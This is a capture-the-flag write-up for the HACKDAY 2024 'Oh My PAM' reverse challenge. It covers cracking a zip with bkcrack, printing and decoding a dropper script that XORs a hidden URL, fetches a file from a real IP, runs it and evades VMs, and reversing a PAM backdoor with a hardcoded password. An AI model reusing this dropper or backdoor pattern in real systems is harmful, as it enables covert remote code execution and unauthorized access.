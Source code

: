 ```yaml
---
title: "⚙️ Oh My PAM"
date: 2024-01-22T17:37:46+01:00
tags: ["CTF","Writeups","HACKDAY 2024 Qualification","⚙️ Reverse"]
author: "Sirius14"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "HACKDAY 2024 Qualification Reverse challenge by Chelinka"
summary:  "HACKDAY 2024 Qualification Reverse challenge by Chelinka"
disableHLJS: false # to disable highlightjs
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: false
ShowPostNavLinks: false
ShowWordCount: false
ShowRssButtonInSectionTermList: false
UseHugoToc: true
pygmentsUseClasses: true
pygmentsCodeFences: true
---
```


At the end of the Baby Web, you got a zip file. Find a way to retrieve its password and follow the steps until you find a password for the backdoor.

## First look

We have a zip file protected by a password, into this file there is 2 file :
- `DS.jpeg`
- `tool_retriever.py`

One good news is that we know what is DS.jpg, indeed at the end of Baby Web challenge we also have DS.jpg file.
In order to crack the zip we need to use [bkcrack](https://github.com/kimci86/bkcrack), with a known plaintext bkcrack can retrieve the key and brute force them to obtain the original password, or use them to create a new password
Our plaintext is not only DS.jpeg because in the zip file, DS.jpeg is compressed. So to have the compressed version we enter this command :

`zip compressed_image.zip DS.jpeg`

Then we can run bkcrack like this : 

`bkcrack -C SuperUltraTech30001.zip -c DS.jpeg -P compressed_image.zip -p DS.jpeg`

And here is the key : `3ea43676 82bd21a5 3f21d103`

With `bkcrack -k 3ea43676 82bd21a5 3f21d103 --bruteforce -r 10..15 ?p` we retrieve the original password : `Super5MDP7768`

P.S : We could replace the password but as you can see later original password is required

## Retreive backdoor

For the next step we can analyze tool_retriver.py

```py
def is_inside_linux():
    return os.name == 'posix'

# Some code ...

def load_p2():
	key = (os.name + getuser() + sys.argv[1]).encode() # Пароль для zip-файла
	address = [47,7,7,29,8,72,64,64,65,98,91,66,84,66,27,124,116,102,25,6,3,12,95,28,7,8,12,27,12,64,7,38,5,21,23,31,84,33,51,49,69,82,24,93,8,10]
	addr = xor(key, address)
	if addr[1:5] == "http":
		r = requests.get(addr[1:]) # Add password or some shit to download it bruh
		with open("/tmp/.a", "wb") as f:
			f.write(r.content)
		subprocess.Popen(["/tmp/.a", detach=True])
	

if __name__ == "__main__":
    load_p2()
    if len(sys.argv) == 2 and is_inside_linux() and not is_inside_docker() and not is_inside_vm() and has_internet_access():
    	print("It works !")
    else:
    	try:
    		subprocess.check_output(['rm','tool_retriever.py','SuperUltraTech30001.zip'])
    	except subprocess.CalledProcessError:
    		pass
```

Here are the 3 useful functions, backdoor file is located at a url, and this address is xor with key. We can found this key like this :
- os.name -> `posix` (main condition)
- getuser() -> `root` (load_p2 condition)
- sys.argv[1] -> `Super5MDP7768` (russian commentary)

Key is : `posixrootSuper5MDP7768`
Xoring this key with address tab and we have url:

`http://51.210.106.154/static/r`

## Analysis

This file in bash script with base64 encoded part in which the real backdoor is downloaded, so we recover the real backdoor binary. Let's open IDA to reverse it.
We need to find password which enable this backdoor, and challenge title contains PAM. Thus we search function with name like pam authentication or someting like that.

Bingo, once disassembled we have a function named : `pam_sm_authenticate`

![disassembled function](/Sirius14_Blog/img/writeups/oh-my-pam_1.png)

This part was very interesting, we can understand that pam authentication token is stock into s1 with this line :

`pam_get_authtok(a1,6LL,&s1,0LL)`

Then s1 is compared to `.gnu.version_r`, it seems to be an unusual password but try it.

It is the right password flag is : __HACKDAY{.gnu.version_r}__ 
